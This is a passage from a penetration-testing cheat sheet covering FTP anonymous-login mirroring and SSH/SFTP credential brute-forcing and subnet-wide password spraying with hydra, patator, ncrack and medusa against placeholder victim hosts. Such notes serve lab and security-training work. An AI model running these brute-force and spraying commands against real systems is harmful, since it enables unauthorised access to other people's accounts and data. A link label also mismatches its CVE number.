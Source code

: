 ```sh
TYPE i # set transmission type to binary instead of ascii
TYPE a # set transmission type to ascii
LIST # list files
RETR FILE # get file
STOR FILE # put file, overwriting existing
STOU FILE # put file, don't overwrite existing
APPE FILE # put file, appending to existing
CWD DIR # change remote working directory
DELE FILE # delete file
QUIT # exit
```


**Batch Download (all files)**:

```sh
# '-m' mirrors the site, downloading all files
wget -m ftp://anonymous:anonymous@VICTIM_IP
wget -m --no-passive ftp://anonymous:anonymous@VICTIM_IP
```


**Config Files:**

Check `/etc` folder.

```ftpusers
ftpusers
ftp.conf
proftpd.conf
vsftpd.conf
```

If the FTP server supports the PORT command, you can abuse it to scan other hosts via the [FTP Bounce Attack](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ftp#ftpbounce-attack). Nmap checks for this by default.



## 2.2 SSH/SFTP - 22

Secure Shell (SSH) and Secure File Transfer Protocol (SFTP).

For extremely old versions, check `searchsploit` for vulns. Otherwise, brute-force and user enumeration are usually all you get out of it.

Check [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ssh) for executing commands with misconfigured SFTP user.

### 2.2.1 SSH Credential Bruteforcing

```sh
# using hydra
# '-s PORT' contact service on non-default port
hydra -V -f -l username -P wordlist.txt -s 2222 ssh://$VICTIM_IP

# spray creds to entire subnet to see if they work on other boxes, too!
hydra -V -f -l username -p password -W 5 10.11.1.0/24 ssh

# using patator: useful when services (e.g. ssh) are too old for hydra to work
patator ssh_login host=$VICTIM_IP port=2222 persistent=0 -x ignore:fgrep='failed' user=username password=FILE0 0=/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt

ncrack -p 22 --user root -P passwords.txt [-T 5] $VICTIM_IP
medusa -u root -P 500-worst-passwords.txt -M ssh -h $VICTIM_IP
```


[cve-2022-1744]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1744